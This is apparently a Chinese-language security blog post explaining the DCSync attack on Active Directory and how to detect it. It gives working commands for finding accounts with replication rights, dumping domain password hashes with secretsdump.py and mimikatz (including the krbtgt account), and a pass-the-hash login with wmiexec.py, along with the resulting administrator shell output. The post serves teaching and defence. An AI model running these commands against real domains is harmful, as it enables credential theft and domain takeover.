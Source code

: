 ```yaml
---
title: DCsync原理及利用
date: 2019-12-31 23:59:50 +0800
categories: [域安全, TA0006凭据访问]
tags: [dcsync, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# DCsync原理及利用

## 原理

域中的账户、密码信息是存储在域控机器上`C:\Windows\NTDS\NTDS.dit`文件里, 以往是需要在域控机器上执行dump hash操作的；而通过DCSync，则可以从其他机器上，远程从`C:\Windows\NTDS\NTDS.dit`中获取密码hash。相比于在域控上访问lsass.exe进程或拷贝`NTDS.dit`、`System` 文件，其噪音更小。

[Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) 是一个RPC协议，用于复制和管理Active Directory中的数据。如果账户具有以下[扩展权限](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10))，即可调用DRS服务提供的接口[GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)，向Domain Controller请求复制NC中数据。`Replicating Directory Changes`不能复制secret domain, 必须加上`Replicating Directory Changes All`权限。

- Replicating Directory Changes (DS-Replication-Get-Changes)
  *Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which excludes secret domain data). This constraint is only meaningful for Domain NCs.*
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
  *Control access right that allows the replication of all data in a given replication NC, including secret domain data.*
- *Replicating Directory Changes In Filtered Set (rare, only required in some environments)*

默认情况下，Administrators, Domain Admins,  Enterprise Admins 及 Domain Controllers组中的账户有权限执行DCSync。



![image-20201115172519581](/assets/img/image-20201115172519581.png)

![image-20201115172857881](/assets/img/image-20201115172857881.png)

**DCSync 流程:**

1. Discovers Domain Controller in the specified domain name.
2. Requests the Domain Controller replicate the user credentials via [GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)



## 实现

![image-20201115182337527](/assets/img/image-20201115182337527.png)

第三个参数`DRS_MSG_GETCHGREQ* pmsgIn`里定义了需要同步的数据，其数据结构定义如下:

![image-20201115181818373](/assets/img/image-20201115181818373.png)



`secretsdump.py`中`def DRSGetNCChanges`对DCSync的实现:

![image-20201115182006964](/assets/img/image-20201115182006964.png)

可以看到secretdump.py 请求同步了这些数据:

![image-20201115182230673](/assets/img/image-20201115182230673.png)



 [dcsync.pcapng](traffic\dcsync.pcapng) 

![image-20201220155630670](/assets/img/image-20201220155630670.png)



## 利用

### 查找具有DCSync权限的账户

```
//AD自带工具
dsacls "DC=ring2,DC=com"
```

![image-20201115185039484](/assets/img/image-20201115185039484.png)

```
// powershell activedirectory module
import-module activedirectory
get-acl "AD:\DC=ring2,DC=com" |Select-Object -ExpandProperty Access
```

![image-20201115185304928](/assets/img/image-20201115185304928.png)

```
Import-Module ActiveDirectory

cd 'AD:DC=ring2,DC=com'

$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups

foreach ($ACL in $AllReplACLs){

    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)

    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])

    $RID = $SID.ToString().Split("-")[7]

    if([int]$RID -gt 1000)

    {

        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference

    }

}
```



### impacket-secretsdump.py

```
python secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py -just-dc [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py ring2.com/win10:Test1234@ringdc-pc.ring2.com
```



获取域控机器密码Hash后，可使用Pass-the-hash登录域控机器

```
C:\Users\win10\AppData\Local\Programs\Python\Python37\Scripts>python wmiexec.py ring2.com/administrator@ringdc-pc.ring2.com -hashes "aad3b435b51404eeaad3b435b51404ee:b9e0cfceaf6d077970306a2fd88a7c0a"
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
ring2\administrator
```



### mimikatz

```
mimikatz "lsadump::dcsync /domain:ring2.com /user:Administrator"
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
mimikatz "lsadump::dcsync /domain:[FQDN_DOMAIN] /all /csv"
```



## 检测

通过检测发出DsGetNCChange请求的不是已知域控IP来检测。

*获取域控IP：*

PowerShell Active Directory module cmdlet:

> Get-ADDomainController -filter * | select IPv4Address


PowerShell:

> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | select IPAddress



![Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges](/assets/img/Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges.jpg)







## 参考

[Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

[DC Sync Attacks With Secretsdump.py](https://www.youtube.com/watch?v=QfyZQDyeXjQ&t=697s)



